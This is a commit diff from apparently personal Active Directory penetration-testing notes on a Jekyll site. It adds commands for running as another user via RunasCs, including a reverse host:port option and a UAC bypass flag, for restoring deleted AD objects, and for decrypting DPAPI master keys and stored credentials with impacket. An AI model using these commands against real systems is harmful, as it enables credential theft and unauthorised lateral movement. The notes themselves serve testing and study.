

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADPivoting.md, in a window 1280 px wide and 1400 px high, scrolled down 2037 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/ADPivoting.md
+++ b/markdown/ADPivoting.md
@@ -95,6 +95,13 @@
   - Dumping and using tickets is one of Rubeus's strong suits
   - `Rubeus.exe triage` to list available tickets
 
+**Changing Users**
+- If only one of our users can remote into the system, but we want to operate as another user, we can use [RunasCs](https://github.com/antonioCoco/RunasCs)
+- This is built on top of the base `runas.exe` and handles much better
+  - `RunasCs.exe {username} {password} {cmd} -d {domain} -r {host:port} `
+    - Also has `--bypass-uac`
+- Compiled executable in releases zip: [https://github.com/antonioCoco/RunasCs/releases/tag/v1.5](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5)
+
 **Shadow Credentials**
 - Seems certipy is the go-to here: `certipy shadow -u "{user}@{domain}" -p {password} -dc-ip {dc_ip} -account '{target_user}' auto`
 - If we have GenericWrite over a user from a group
@@ -110,6 +117,14 @@
 	- We could also use certipy, which gives us the user's NTLM hash as well
 	  - `certipy auth -pfx {pfx_file} -dc-ip {dc-ip} -domain {domain_name} -username {target_user}`
 	  	- Add `-no-save` if we don't want the ccache file
+
+- **Finding Deleted Objects**
+  - Sometimes there can be interesting AD objects that have been deleted which we can use
+  - `Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects` to list deleted objects
+    - This will list objects deleted in chronological order, so we can restore the same deleted objects multiple times
+    - If we've imported PowerView, this will fail due to having a different `Get-ADObject`
+  - We can then restore the object with `Restore-ADObject -Identity "{object_GUID}"`
+    - We can undo this with `Remove-ADObject -Identity "{object_GUID}" -Recursive -Confirm:$false`
 
 **Abusing Domain Trusts**
 - Remember here that since we're using kerberos we have to use DNS instead of IPs
@@ -161,3 +176,11 @@
 
 **Getting More Credentials**
 - `vault::cred /patch` will enumerate vault credentials (creds used in scheduled tasks)
+
+**DPAPI Keys**
+- Master encryption keys used by the Data Protection API (DPAPI) to encrypt data like passwords/certs
+- Derived from logon passwords
+- We'll find the master key in `~\AppData\Roaming\Microsoft\Protect\{user_SID}\`, which we can decrypt using impacket:
+  - `dpapi.py masterkey -file {masterkey_file} -sid {user_SID} -password '{user_password}'`
+- We can then use the masterkey to decrypt credentials, which are commonly found in `~\Appdata\(Roaming/Local)\Microsoft\Credentials\` again using impacket:
+  - `dpapi.py credential -file {credential_file} -key '0x{master_key}'`
```
Also changed, not shown: markdown/ADExploitation.md (+6 -11 lines), markdown/Miscellaneous.md (+6 -1 lines), markdown/PasswordAttacks.md (+1 -0 lines).
